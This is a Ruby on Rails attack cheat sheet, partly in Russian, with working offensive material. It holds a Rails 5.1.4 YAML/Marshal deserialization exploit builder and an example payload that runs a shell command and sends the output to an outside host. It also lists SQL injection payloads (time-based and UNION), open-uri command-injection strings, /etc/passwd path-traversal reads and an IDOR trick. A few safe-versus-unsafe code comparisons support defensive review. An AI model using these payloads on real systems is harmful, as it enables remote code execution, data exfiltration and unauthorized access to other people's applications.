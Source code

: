 # Ruby Security

## Deserializations

### Marshal.load(\<user\_input>) = RCE

Ruby Marshal+Base64 RCE payload playground/generator: [https://repl.it/@allyshka/Ruby-RCE-with-Marshalload](https://repl.it/@allyshka/Ruby-RCE-with-Marshalload)

Other guide: [https://www.elttam.com/blog/ruby-deserialization/](https://www.elttam.com/blog/ruby-deserialization/)

### YAML.load(\<user\_input>) = RCE

### Rails 5.1.4 YAML unsafe deserialization RCE payload

Example: [https://gist.github.com/niklasb/df9dba3097df536820888aeb4de3284f](https://gist.github.com/niklasb/df9dba3097df536820888aeb4de3284f)

Точно работает на Rails **5.1.4**

```ruby
require "erb"
require "base64"
require "active_support"
 
if ARGV.empty?
  puts "Usage: exploit_builder.rb <source_file>"
  exit!
end
 
erb = ERB.allocate
erb.instance_variable_set :@src, File.read(ARGV.first)
erb.instance_variable_set :@lineno, 1
 
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result
 
payload = Base64.encode64(Marshal.dump(depr))
 
puts <<-PAYLOAD
---
!ruby/object:Gem::Requirement
requirements:
  - !ruby/object:Rack::Session::Abstract::SessionHash
      req: !ruby/object:Rack::Request
        env:
          rack.session: !ruby/object:Rack::Session::Abstract::SessionHash
            loaded: true
          HTTP_COOKIE: "a=#{payload}"
      store: !ruby/object:Rack::Session::Cookie
        coder: !ruby/object:Rack::Session::Cookie::Base64::Marshal {}
        key: a
        secrets: []
      exists: true
PAYLOAD
```

Пример payload:

```ruby
require "base64"
out = `pwd`
url = URI.parse('http://bizone.pw')
req = Net::HTTP::Get.new(url.to_s + '/?q=' + Base64.strict_encode64(out))
res = Net::HTTP.start(url.host, url.port) {|http|
  http.request(req)
}
```

## IDOR in RoR

Добавление .json к пути, если у нас Ruby

```
/user_data/2341      --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

## SQL Injections

### SQLi in ORDER BY

Только посмотрите, как круто в коде `RubyOnRails` выглядит `SQLi` в ORDER BY:\
`Client.order(:first_name)`\
Т.е. Active Record Query Interface после такого вызова построит следующий запрос:\
`'SELECT * FROM Clients ORDER BY #{:first_name}'` , где `#{:first_name}` - это user input.\
Метод `.order()` не фильтрует и не экранирует получаемые данные. А значит, в таком случае мы легко можем раскрутить `Blind SQLi` c подзапросом вроде:\
`ORDER BY 1,(SELECT 1 FROM SLEEP(5))`-- , где дальше можно крутить Boolean-based, Time-based и пр.\
P.S. Почему это круто?!\
Потому что разработчики, когда пишет код, даже не подозревает, что вызов вроде `Client.order(:first_name)` приведет к `SQLi`. Тут ничего не режет глаз, нет конкатенации, нет опасных функций, казалось бы и пр.

### SQLi: Active Record — Rails ORM

Как выглядит в коде SQLi

```ruby
def index
    ...
    name = params[:name]
    @projects = Project.where("name like '" + name + "'");
    ...
end
```

```ruby
# Unsafe
st = ActiveRecord::Base.connection.raw_connection.prepare(
    "select * from users where email = '#{email}'"
)
results = st.execute
st.close

# Safe
st = ActiveRecord::Base.connection.raw_connection.prepare(
    "select * from users where email = ?"
)
results = st.execute(email)
st.close
```

```ruby
# Unsafe exists
User.exists? params[:user]

# For Example: ?user[]=1 -> 
SELECT  1 AS one FROM "users"  WHERE (1) LIMIT 1


# Unsage find_by
params[:id] = "admin = 't'"
User.find_by params[:id]

# from
params[:from] = "users WHERE admin = 't' OR 1=?;"
User.from(params[:from]).where(admin: false)

# group
params[:group] = "name UNION SELECT * FROM users"
User.where(:admin => false).group(params[:group])

# ...
```

В общем, надо просматривать обращение ко всем объектам, унаследованным от ActiveRecord::Base и смотреть обращение к ним через встроенные функции where, find\_by, exists и тп

Подробнее с примерами: [\
https://rails-sqli.org/](https://rails-sqli.org/)

## Command Injection

```ruby
eval("ruby code here")
system("os command here")
`ls -al /` # (backticks contain os command)
exec("os command here")
open("\| os command here")
```

## Code Execution

```ruby
class_eval <<-RUBY, __FILE__, __LINE__ + 1
  def #{item}?
    code == '#{item.upcase}'
  end
RUBY
```

## open-uri

Если используется в коде этот пакет, то есть возможность исполнить код на стороне сервера (так как используется внутри [Kernel.open](https://ruby-doc.org/core-2.2.0/Kernel.html#method-i-open))

Пример кода уязвимого

```ruby
require "open-uri"

open(params[:url]) { |f|
    f.each_line {|line| p line}
}
```

Payloads:

```ruby
url = "|ls"

# open(params[:url]) if param[:url] =~ /^https:// , то сработает так:
url = "|touch n;\nhttps://url.com"  # Почему? читай про broken Regexp (use \A\z) в Ruby: https://homakov.blogspot.com/2012/05/saferweb-injects-in-various-ruby.html

# Если так: open(URI(params[:url])) -> Local File Read
url = "/etc/passwd"

# open(params[:url]) if URI(params[:url]).scheme == 'http'
url = "http:/../../../../../../../etc/passwd"
```

Mitigation: переходить на `openURI`.

## SSTI

```ruby
render <user_input>
```

SSTI: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/6bcd2e8a6a39d26a547a70d83dfebef4c2c6f801/Server%20Side%20Template%20Injection/README.md#ruby---basic-injections](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/6bcd2e8a6a39d26a547a70d83dfebef4c2c6f801/Server%20Side%20Template%20Injection/README.md#ruby---basic-injections)

## Papers

Attacking Ruby on Rails Applications: [http://phrack.org/issues/69/12.html](http://phrack.org/issues/69/12.html)

OWASP Ruby on Rails Cheatsheet: [https://cheatsheetseries.owasp.org/cheatsheets/Ruby\_on\_Rails\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Ruby\_on\_Rails\_Cheat\_Sheet.html)

RoR Security Guide: [http://rusrails.ru/ruby-on-rails-security-guide](http://rusrails.ru/ruby-on-rails-security-guide)

Доклад про историю развития Security in RoR: [https://github.com/presidentbeef/rails-security-history](https://github.com/presidentbeef/rails-security-history)
